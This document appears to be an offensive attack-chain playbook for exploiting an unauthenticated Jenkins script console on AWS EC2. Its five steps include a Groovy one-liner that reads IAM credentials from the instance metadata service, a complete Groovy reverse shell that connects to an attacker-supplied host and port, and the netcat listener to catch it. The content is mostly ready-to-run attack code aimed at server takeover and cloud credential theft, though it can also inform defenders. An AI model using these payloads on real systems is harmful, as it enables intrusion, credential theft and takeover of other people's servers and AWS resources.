

# RCE via Exposed Jenkins Script Console Leading to AWS IAM Exfiltration and Reverse Shell

Multi-stage attack chain demonstrating exploitation of an unauthenticated Jenkins script console to achieve remote code execution (RCE), exfiltrate temporary AWS IAM credentials from the EC2 instance metadata service, and establish a reverse shell as the jenkins user, enabling potential full server takeover and AWS resource management.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/nc]]

### Target Environment

- Jenkins server running on AWS EC2 with an IAM role attached (e.g., AmazonSSMRoleForInstancesQuickSetup)
- Exposed /jenkins/script endpoint without authentication
- Network access to the Jenkins URL (e.g., https://target.com/jenkins/script)
- Attacker's host with netcat for listening

### Initial Access Requirements

- No credentials required (unauthenticated access)
- Direct internet access to the target Jenkins instance
- Knowledge of the target's domain or IP

## Detailed Attack Procedures

### Step 1: Access Jenkins Console and Exfiltrate AWS Credentials
procedure: [[procedures/Access-Jenkins-Console-and-Exfiltrate-AWS-Credentials]]

**Objective**: Gain unauthenticated access to the Jenkins script console and execute a Groovy script to fetch and display temporary AWS IAM credentials from the EC2 metadata service.

**Instructions**: Navigate to the exposed Jenkins script console at https://target.com/jenkins/script. In the console, enter and run the Groovy one-liner using [[commands/groovy-curl-aws-metadata]] to execute a curl command against the instance metadata endpoint:

```groovy
println "curl http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup".execute().text
```

**Expected Output**: JSON response containing AWS credentials, including AccessKeyId, SecretAccessKey, Token, and Expiration.

**Success Indicators**:
- Jenkins script console loads without authentication prompt
- Groovy script executes successfully and prints credential JSON

### Step 2: Observe Exfiltrated IAM Credentials
procedure: [[procedures/Observe-Exfiltrated-IAM-Credentials]]

**Objective**: Review the output from the Groovy execution to capture the exfiltrated AWS IAM credentials for further use in managing AWS resources.

**Instructions**: Examine the console output directly after running the Groovy script. No additional commands are needed; copy the displayed JSON for manual use or scripting.

**Expected Output**: JSON object like {"Code": "Success", "AccessKeyId": "ASIA...", "SecretAccessKey": "...", "Token": "...", "Expiration": "..."}.

**Success Indicators**:
- Valid JSON with non-expired credentials is displayed
- Credentials can be tested with AWS CLI (e.g., aws sts get-caller-identity)

### Step 3: Establish Reverse Shell via Jenkins Groovy Script
procedure: [[procedures/Establish-Reverse-Shell-via-Jenkins-Groovy-Script]]

**Objective**: Execute a Groovy script in the Jenkins console to spawn a bash process and connect a reverse shell back to the attacker's listener.

**Instructions**: In the same Jenkins script console, paste and run the Groovy reverse shell script using [[commands/groovy-reverse-shell]] (replace 'your_server_ip' with attacker's IP):

```groovy
String host="your_server_ip"; int port=1337; String cmd="bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**Expected Output**: No direct console output, but a TCP connection is established to the listener on port 1337.

**Success Indicators**:
- Script runs without errors in Jenkins console
- Incoming connection appears on the attacker's netcat listener

### Step 4: Set Up Netcat Listener for Reverse Shell
procedure: [[procedures/Set-Up-Netcat-Listener-for-Reverse-Shell]]

**Objective**: Prepare the attacker's host to receive the incoming reverse shell connection from the target Jenkins server.

**Instructions**: On the attacker's machine, run the netcat listener command using [[commands/nc-listen-reverse-shell]] to bind to port 1337:

```bash
nc -nvlp 1337
```

**Expected Output**: Netcat starts listening, displaying "Listening on [0.0.0.0] (family 0, port 1337)".

**Success Indicators**:
- Netcat process is running and bound to port 1337
- No firewall blocks the port

### Step 5: Receive and Interact with Reverse Shell
procedure: [[procedures/Receive-and-Interact-with-Reverse-Shell]]

**Objective**: Accept the reverse shell connection and gain interactive shell access as the jenkins user on the target host for further exploitation.

**Instructions**: With the netcat listener active, wait for the connection from the Groovy script. Once connected, interact with the shell (e.g., run 'whoami' to confirm jenkins user, explore the filesystem, or escalate privileges).

**Expected Output**: Connection message like "Connection from target_ip port 1337", followed by a bash prompt (e.g., jenkins@target:~$).

**Success Indicators**:
- Shell prompt appears as jenkins user
- Commands like 'id' or 'ls' execute successfully on the target

## Attack Chain Summary

### Key Achievements

1. Unauthenticated RCE via Jenkins Groovy script execution
2. Exfiltration of temporary AWS IAM credentials enabling resource management
3. Establishment of persistent reverse shell for server access and potential takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Command-Line Interface]] Command and Scripting Interpreter
- [[Cloud Instance Metadata API]] Cloud Instance Metadata Abuse
- [[Exploitation of Remote Services]] Exploitation of Remote Services

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
